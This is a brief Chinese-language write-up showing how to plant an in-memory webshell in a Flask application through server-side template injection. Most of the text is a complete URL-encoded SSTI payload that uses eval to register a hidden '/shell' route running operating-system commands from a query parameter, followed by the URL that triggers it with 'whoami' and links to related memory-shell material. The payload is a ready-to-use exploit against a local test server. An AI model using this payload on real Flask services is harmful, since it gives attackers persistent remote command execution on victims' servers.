 先起一个带有ssti的flask：

插入路由：

http://127.0.0.1:8000/test?param={{url_for.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}


访问植入的shell：
http://127.0.0.1:8000/shell?cmd=whoami


参考：

https://github.com/iceyhexman/flask_memory_shell

https://segmentfault.com/a/1190000022175553

https://xz.aliyun.com/t/8029

